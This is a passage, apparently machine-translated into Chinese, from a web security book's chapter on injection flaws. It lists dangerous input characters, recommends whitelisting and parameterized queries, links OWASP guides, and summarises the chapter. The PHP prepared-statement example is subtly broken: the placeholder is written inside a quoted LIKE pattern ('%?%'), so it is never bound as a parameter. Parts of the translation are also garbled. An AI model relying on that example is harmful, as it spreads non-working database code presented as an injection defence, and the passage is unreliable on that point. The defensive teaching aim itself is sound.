防止注入漏洞的关键方面是*验证*。如果用户提供的输入包含以下无效或危险字符，则不应信任该输入，并应始终对其进行验证、拒绝或消毒：

*   引号（`'`和`"`）
*   括号和括号
*   保留特殊字符（`'!'`、`'%'`、`'&'`、`';'`）
*   注释组合（`'--'`、`'/*'`、`'*/'`、`'#'`、`'(:', ':)'`）
*   特定于语言和实现的其他字符

推荐的验证方法为**白名单**。这意味着为每个输入字段或字段组提供一个允许的字符列表，并将提交的字符串与该列表进行比较。提交字符串中的所有字符都必须在允许列表中，才能对其进行验证。

为了防止 SQL 注入，应该使用参数化或准备好的语句，而不是将输入连接到查询字符串。准备好的声明的执行因语言而异，但它们都有相同的原则；客户端提供的输入不会连接到查询字符串，而是作为参数发送给正确构建查询的函数。以下是 PHP 的一个示例：

```
$stmt = $dbh->prepare("SELECT * FROM REGISTRY where name LIKE '%?%'");
$stmt->execute(array($_GET['name']));  
```

本主题的一些有用参考资料如下：

*   [https://www.owasp.org/index.php/Data_Validation](https://www.owasp.org/index.php/Data_Validation)
*   [https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet)
*   [https://www.owasp.org/index.php/XML_External_Entity_（XXE）【预防作弊单】](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet)

# 总结

在本章中，我们讨论了各种注入缺陷。注入漏洞是 web 应用中的一个严重漏洞，因为攻击者可以利用该漏洞完全控制服务器。我们还研究了恶意攻击者如何通过不同类型的注入来访问操作系统。这样就可以用来攻击网络上的其他服务器。当攻击者利用 SQL 注入漏洞进行攻击时，他们可以访问后端数据库上的敏感数据。这对一个组织来说可能是毁灭性的。

在下一章中，我们将了解一种特殊类型的注入漏洞，即跨站点脚本，它允许攻击者通过在请求参数中注入或诱使用户注入脚本代码来改变页面呈现给用户的方式。